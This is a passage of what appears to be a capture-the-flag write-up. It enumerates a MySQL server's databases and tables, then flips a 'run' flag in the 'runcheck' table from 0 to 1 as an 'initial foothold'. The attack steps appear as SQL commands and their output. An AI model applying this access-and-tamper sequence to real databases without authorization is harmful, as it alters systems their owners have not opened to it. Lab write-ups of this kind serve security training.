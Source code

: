 **Enumerating MySQL:**
```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| runornot           |
+--------------------+

MySQL [(none)]> use runornot;
[...]

MySQL [runornot]> show tables;
+--------------------+
| Tables_in_runornot |
+--------------------+
| runcheck           |
+--------------------+

MySQL [runornot]> desc runcheck;
+-------+---------+------+-----+---------+-------+
| Field | Type    | Null | Key | Default | Extra |
+-------+---------+------+-----+---------+-------+
| run   | int(11) | YES  |     | NULL    |       |
+-------+---------+------+-----+---------+-------+
```

**Found column `run` in table `runcheck` in database `runornot`.**

# Initial Foothold

```
MySQL [runornot]> SELECT run FROM runcheck;
+------+
| run  |
+------+
|    0 |
+------+
```

The `run` has a `0` value record. What if I change it to `1`?

```
MySQL [runornot]> UPDATE runcheck SET run = 1;
Query OK, 1 row affected (0.218 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MySQL [runornot]> SELECT run FROM runcheck;
+------+
| run  |
+------+
|    1 |
+------+
```

